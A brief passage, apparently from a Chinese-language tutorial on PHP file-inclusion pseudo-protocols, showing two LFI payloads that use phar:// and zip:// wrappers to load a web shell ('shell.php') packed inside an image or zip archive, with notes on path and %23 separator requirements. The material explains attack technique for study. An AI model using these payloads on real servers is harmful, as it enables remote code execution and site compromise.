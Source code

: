 ```cobol
?file=phar://./shell.png/shell.php
```

依旧可以访问

### zip:// 协议

和phar协议类似 但是需要的是绝对路径

并且 访问压缩包下的内容和压缩包需要用%23(#的url编码)隔开

```cobol
?file=zip://../WWW/shell.zip%23shell.php
```

到这里 常见的伪协议就结束了